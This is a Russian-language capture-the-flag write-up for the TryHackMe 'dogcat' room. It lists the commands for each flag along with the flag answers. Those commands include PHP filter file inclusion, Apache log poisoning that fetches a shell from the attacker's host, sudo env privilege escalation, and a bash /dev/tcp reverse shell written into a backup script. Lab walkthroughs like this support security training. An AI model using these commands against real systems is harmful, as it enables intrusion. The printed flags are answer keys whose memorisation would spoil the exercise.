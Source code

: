 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [dogcat](https://tryhackme.com/r/room/dogcat) 

Всего 1 заданиe:
## Задание 1
Я сделал этот сайт для просмотра изображений кошек и собак с помощью PHP. Если вам грустно, заходите посмотреть на 
собак/кошек!

Для полного запуска машины может потребоваться несколько минут.

### Ответьте на вопросы ниже
+ 10
Что такое флаг 1?
 ```commandline
nmap -sC -sV <IP>
curl -s "http://<IP>/?view=php://filter/read=convert.base64-encode/resource=./dog/../index"
curl -s "http://<IP>/?view=php://filter/read=convert.base64-encode/resource=dog" | grep "Here you go"
echo "PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K" | base64 -d
curl -s "http://<IP>/?view=php://filter/read=convert.base64-encode/resource=cat" | grep "Here you go"
echo "PGltZyBzcmM9ImNhdHMvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K" | base64 -d
curl -s "http://<IP>/?view=./dog/../../../../var/log/apache2/access.log&ext"

vim shell.php
# php reverse shell

sudo python -m http.server 80
curl -A "<?php file_put_contents('shell.php', file_get_contents('http://<your_own_IP>/shell.php')); ?>" \
ns -nlvp 4444
find / -name *flag* 2>/dev/null
cat /var/www/html/flag.php
```
```commandline
THM{Th1s_1s_N0t_4_Catdog_ab67edfa}
```
+ 25
Что такое флаг 2?
```commandline
cat /var/www/flag2_QMW7JvaY2LvK.txt
```
```commandline
THM{LF1_t0_RC3_aec3fb}
```
+ 30
Что такое флаг 3?
```commandline
sudo -l
sudo /usr/bin/env /bin/bash
cat /root/flag3.txt
```
```commandline
THM{D1ff3r3nt_3nv1ronments_874112}
```
+ 50
Что такое флаг 4?
```commandline
cd /opt/backups
ls -l
cat backup.sh
printf '#!/bin/bash\nbash -i >& /dev/tcp/<your_own_IP>/8080 0>&1' > backup.sh
nc -nlvp 8080
whoami
hostname 
ls -l
cat flag4.txt
```
```commandline
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)